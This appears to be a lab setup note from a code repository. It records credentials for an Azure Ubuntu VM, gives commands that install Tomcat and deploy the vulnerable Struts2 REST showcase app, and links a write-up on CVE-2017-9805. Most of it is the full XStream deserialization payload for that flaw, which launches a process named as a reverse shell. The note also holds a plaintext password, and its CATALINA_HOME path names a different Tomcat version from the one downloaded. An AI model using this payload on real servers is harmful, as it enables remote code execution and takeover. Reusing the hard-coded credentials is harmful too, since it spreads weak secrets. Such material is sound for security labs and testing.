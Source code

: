# Azure Ubuntu VM

Name: ubuntu-tomcat
user: appadmin
pass: Pa55w0rd@123

## Tomcat setup

`mkdir /opt/tomcat`

`cd /opt/tomcat`

`wget http://apache.spinellicreations.com/tomcat/tomcat-8/v8.0.53/bin/apache-tomcat-8.0.53.tar.gz`

`tar xvzf apache-tomcat-8.0.53.tar.gz`

`apt-get install default-jdk`

`vim ~/.bashrc`

```
    export JAVA_HOME=/usr/lib/jvm/java-1.8.0-openjdk-amd64
    export CATALINA_HOME=/opt/tomcat/apache-tomcat-8.0.52
```

`source ~/.bashrc`

`$CATALINA_HOME/bin/startup.sh`

`wget http://central.maven.org/maven2/org/apache/struts/struts2-rest-showcase/2.5.10/struts2-rest-showcase-2.5.10.war`

https://blog.appsecco.com/detecting-and-exploiting-the-java-struts2-rest-plugin-vulnerability-cve-2017-9805-765773921d3d

```
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command>
                        <string>bash-reverse-shell</string>
                      </command>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                  </filter>
                  <next></next>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer/>
            </is>
          </dataSource>
        </dataHandler>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
  </entry>
</map>
```